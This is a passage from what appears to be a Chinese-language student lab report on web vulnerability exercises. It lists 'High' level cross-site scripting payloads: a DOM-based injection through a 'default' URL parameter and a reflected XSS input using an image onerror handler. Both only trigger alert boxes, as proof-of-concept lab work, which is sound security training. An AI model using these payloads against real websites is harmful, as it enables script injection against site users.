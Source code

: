 **Level High**  

在URL中加入如下字段

```
?default=English&a=<input onclick=alert('XSS') />
```

<img src="综合实践VI.assets/image-20250506103559950.png" alt="image-20250506103559950" style="zoom: 50%;" />

10. **Vulnerability: Reflected Cross Site Scripting (XSS)**  

**Level: High**  

在输入框输入如下标签

```
<img src=x onerror=alert('XSS')>
```
